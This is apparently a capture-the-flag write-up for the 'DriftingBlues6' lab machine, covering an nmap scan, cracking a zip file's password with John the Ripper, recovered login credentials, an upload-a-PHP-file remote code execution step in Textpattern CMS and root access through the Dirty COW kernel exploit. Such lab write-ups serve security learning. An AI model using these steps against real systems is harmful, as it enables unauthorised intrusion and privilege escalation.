 # DriftingBlues6

***

IP=192.168.192.219

## NMAP

| PORT   | STATE | SERVICE |
| ------ | ----- | ------- |
| 80/tcp | open  | http    |

```perl
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: driftingblues
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-server-header: Apache/2.2.22 (Debian)
```

## 80 - http

### /robots.txt

```txt
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

### /spammer.zip

```bash
zip2john spammer.zip > hash
john --wordlist=rockyou.txt hash
unzip spammer.zip
myspace4
```

> mayer:lionheart

### /textpattern/textpattern

Textpattern CMS (v4.8.3)

```bash
searchsploit textpattern
```

```txt
RCE

1) Go to content section .
2) Click Files and upload malicious php file.
3) go to yourserver/textpattern/files/yourphp.php?cmd=yourcode;

```

## PrivEsc

### Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE\_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)

```bash
uname -a
```

3.2.0-4-amd64

https://www.exploit-db.com/exploits/40839

```bash
gcc -pthread 40839.c -o dirty -lcrypt
chmod +x dirty
./dirty
```
